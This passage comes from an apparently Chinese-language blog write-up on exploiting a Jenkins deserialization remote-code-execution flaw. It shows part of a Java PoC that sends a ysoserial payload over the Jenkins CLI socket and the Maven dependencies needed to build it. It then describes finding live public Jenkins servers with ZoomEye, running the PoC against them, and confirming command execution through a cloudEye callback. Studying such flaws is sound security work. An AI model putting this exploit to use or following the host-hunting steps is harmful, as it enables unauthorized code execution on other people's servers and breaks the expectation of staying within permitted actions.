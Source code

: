            System.err.println("Running " + payload + " against " + ClassFilter.class.getProtectionDomain().getCodeSource().getLocation());
            final Object object = payload.getObject(payloadArg);
            objOut.writeObject(object);

            os.flush();
        }
        finally {
            if ( s != null ) {
                s.close();
            }
        }
    }
}

{% endhighlight %}

针对代码的具体分析可以参考乌云drops的那篇文章。接下来，我们需要做的就是解决相关的依赖关系。这个PoC代码需要的依赖分为两类，一类是Jenkins自身的依赖，另外一类是用来构造RCE的payload框架。

Jenkins自身依赖相关的maven配置如下：

{% highlight xml %}
<dependency>
  <groupId>org.jenkins-ci</groupId>
  <artifactId>constant-pool-scanner</artifactId>
  <version>1.2</version>
</dependency>
<dependency>
  <groupId>org.jvnet.hudson.main</groupId>
  <artifactId>hudson-remoting</artifactId>
  <version>2.2.1</version>
</dependency>
{% endhighlight %}

构造RCE的Payload框架是近期出镜率极高的[ysoserial](https://github.com/frohoff/ysoserial), 可以直接下载release的jar包设置为外部依赖。

至此，我们已经完成了PoC的调试准备工作，让我们来测试一下是不是能够触发RCE。

### PoC测试

我们可以通过ZoomEye等搜索引擎获取公网中Jenkins主机信息，特别注意的是Jenkins的这个漏洞需要获取HTTP原始报文中的X-Jenkins-CLI-Port头部来确定利用端口，所以在挑选主机时就需要筛选是否带有这个字段。

![Jenkins HTTP报文](http://7xwdx7.com1.z0.glb.clouddn.com/jenkins-port.png)

最后，我们设置好URL以及我们需要执行的命令、运行PoC，可以看到cloudEye后台已经有了目标主机的access_log。证明该命令已经在远程主机被执行了。

![Jenkins Poc运行情况](http://7xwdx7.com1.z0.glb.clouddn.com/jenkins_poc_run.png)

![Jenkins HTTP报文](http://7xwdx7.com1.z0.glb.clouddn.com/jenkins_cloudeye.png)
